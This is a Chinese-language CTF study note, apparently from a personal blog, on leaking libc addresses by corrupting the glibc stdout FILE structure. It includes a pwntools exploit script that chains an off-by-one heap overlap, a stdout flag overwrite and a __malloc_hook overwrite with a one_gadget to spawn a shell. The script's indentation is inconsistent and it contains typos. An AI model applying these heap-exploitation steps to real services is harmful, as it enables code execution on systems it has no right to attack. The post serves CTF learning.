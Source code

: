 ```yaml
---
layout:     post
title:      IO_FILE泄露libc地址学习笔记
subtitle:   笔记
date:       2020-11-14
author:     X1ng
header-img: IO_FILE泄露libc.jpg
catalog: true
tags:

    - 学习笔记
    - IOfile泄露libc

---
```


由于做过的题太少了（太菜了），很多时候就算知道某个套路题，调试写出exp也很慢，平时不做题到比赛时已经把知识点忘光了，水篇笔记让我比赛的时候快速回忆IO_FILE泄露libc的知识点

## 利用方法

其实就是修改stdout的flag位为`0xfbad1800`,并且将`_IO_write_base`的最后一个字节改小，输出一些内容，这些内容里面一般都包含libc地址，具体的原理网上都可以找到讲的很好的师傅，可以看看[这个师傅的博客](https://n0va-scy.github.io/2019/09/21/IO_FILE/)

### 在libc-2.23.so下

构造堆块重叠时，需要让一块内存先进入0x70大小的fastbin中，然后再让它进入unsortbin中，然后修改unsortedbin下留下的`main_arena+88`地址

![](https://tva1.sinaimg.cn/large/0081Kckwly1gkp2s5in4hj30jy080gn4.jpg)

用pwntools的send函数发送数据来覆盖最后两字节为`\xdd\xN5`（_IO_2_1_stdout_结构体的地址的最低2字节），N需要爆破1/16

可以用`p &_IO_2_1_stdout_`来查看stdout结构体的地址，实际上应该是比`main_arena+88`大了0x1000左右，比如上图在调试的时候可以用gdb的`set`命令将fd修改为0x7f8d780af5dd，方便调试

从fastbin里malloc两次之后就可以将chunk分配到`_IO_2_1_stdout_`结构体之前的一个地方，因为这段内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`，可以绕过fastbin分配的时候对size的检查

然后填充payload：`'A'*0x33 + p64(0xfbad1800) + p64(0)*3 + b'\x00'`

接收libc中的地址：`leak = u64(ru("\x7f")[-6:].ljust(8,b'\x00'))`

如果有libc文件也可以用偏移直接算出libc基址

```python
IO_stderr = u64(ru("\x7f")[-6:].ljust(8,b'\x00'))-192
libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
```

就完成了泄露

举个利用的栗子

```python
#!/usr/bin/python2

from pwn import *
import sys

context.log_level = 'debug'
context.arch='amd64'

local=1
binary_name='pwn'

libc_name='libc-2.23.so'


def z(a=''):
    if local:
        gdb.attach(p,a)
        if a=='':
            raw_input
    else:
        pass
ru=lambda x:p.recvuntil(x)
sl=lambda x:p.sendline(x)
sd=lambda x:p.send(x)
sa=lambda a,b:p.sendafter(a,b)
sla=lambda a,b:p.sendlineafter(a,b)
ia=lambda :p.interactive()
def leak_address():
    if(context.arch=='i386'):
        return u32(p.recv(4))
    else :
        return u64(p.recv(6).ljust(8,b'\x00'))

def cho(num):
    sla(">> ",str(num))

def add(size):
    cho(1)
    sla("size?",str(size))

def edit(idx,con):
    cho(4)
    sla("index ?",str(idx))
    sa("content ?", con)

def delete(idx):
    cho(2)
    sla("index ?",str(idx))

while True:
	try:
		if local:
    		p=process("./"+binary_name)
   			e=ELF("./"+binary_name)
				libc=ELF("./"+libc_name)
		else:
    		p=remote('',)
    		e=ELF("./"+binary_name)
    		ibc=ELF("./"+libc_name)
        
		add(0x18)#0
    
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(0,'a'*0x18+'\x71')
    delete(1)
    #off-by-one，构造堆块重叠
    
		delete(2)
    #将目标chunk放入fastbin
    
		add(0xf8)#1，让fastbin中chunk的fd中保存main_arena+88
    
		add(0x58)#2，与fastbin中重叠
    
		
		edit(2,'\xdd\x25')
    #修改低位两字节
		
		add(0x68)#4
    
		add(0x68)#5，该chunk在`_IO_2_1_stdout_`结构体附近
		
		edit(5,'a'*0x33 + p64(0xfbad1800) + p64(0)*3 + '\x00')
    #填充payload
    
		IO_stderr = u64(ru("\x7f")[-6:].ljust(8,'\x00'))-192
		libc_base = IO_stderr - libc.symbols['_IO_2_1_stderr_']
		print 'libc:' + hex(libc_base)
		malloc_hook = libc_base + libc.symbols['__malloc_hook']
    print 'malloc:' + hex(malloc_hook-0x10)
		#接收地址
    
		add(0x18)#6
    
		add(0xf8)
		add(0x68)
		add(0x18)
		edit(6,'a'*0x18+'\x71')
		delete(7)
		delete(8)
		add(0x168)#7
    
		edit(7,'a'*0xf0+p64(0)+p64(0x71)+p64(malloc_hook - 0x23))
		#故技重施，分配chunk到malloc_hook附近
    
		add(0x68,'b')#8
    
		add(0x68,'b')#10
    
		edit(10,'\x00'*0x13 + p64(libc_base + 0x45226))
		#填充payload，覆盖malloc_hook为one_gadget
    
		cho(1)
    sla("size?",str(100))
		#调用malloc		
    
		ia()
		break
	except:
		p.close()

```



### 在libc-2.27.so下

在libc-2.27环境下由于有了tcache，不需要特意将chunk分配到内存中的数据为`0xNNNNNNNNNNNNNNNN 0xNNNNNNNN0000007f`的地址上了，直接把tcache的fd改为`_IO_2_1_stdout_`即可

而且tcache可以直接覆盖free hook为system函数进行利用

